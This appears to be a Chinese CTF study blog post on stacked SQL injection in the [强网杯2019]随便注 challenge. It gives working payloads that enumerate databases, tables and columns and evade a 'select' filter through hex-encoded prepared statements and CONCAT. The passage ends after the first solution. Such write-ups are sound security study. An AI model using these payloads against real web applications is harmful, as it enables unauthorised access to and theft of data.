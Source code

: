 ```yaml
---
title: 随便注|blacklist => 的一些知识
date: 2021-03-09 17:33:28
author: Na0H
tags:	
- 学习笔记
categories:
- 学习笔记
excerpt: 由堆叠注入对sql语句的一些学习（alert、handle、预处理）
description: 由堆叠注入对sql语句的一些学习（alert、handle、预处理）
---
```




## 前言

最近刷题刷到 [强网杯2019]随便注 和 [GYCTF2020]Blacklist；
加深了一点对堆叠注入的理解，也了解到一些相关waf的简单bypass
算是对之前sqli学习的一些补充吧；后续也要对mysql进行深入的学习才行（毕竟这学期也有这门课程--）

## [强网杯2019]随便注

![](https://i.loli.net/2021/03/09/753fzuyAcqHebMO.png)

```mysql
堆叠注入：
1'; show databases;#	//库名
1'; show tables;#		//表名
1'; show columns from `1919810931114514`;# 	//字段；表名为数字时，要用反引号包起来查询。
```



### 解法1

预处理

select被过滤了，所以先将

```mysql
select * from ` 1919810931114514 `
```

进行16进制编码

再通过构造payload进而得到flag

```mysql
//1:利用预处理语句会进行编码转换，将sql语句转为十六进制
-1';
SeT @a = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;	
prepare execsql from @a;			
execute execsql;			

# set：设置变量名和值
# prepare…from…：预处理语句，会进行编码转换；且prepare用于预备一个语句，并赋予名称，之后可以引用该语句
# execute：执行由SQLPrepare创建的SQL语句
# ps：SELECT 可以在一条语句里对多个变量同时赋值,而 SET 只能一次对一个变量赋值

//2：利用concat()也可以0-0
-1';
Set @a = CONCAT('se','lect * from `1919810931114514`;');
prepare execsql from @a;
execute execsql;
```
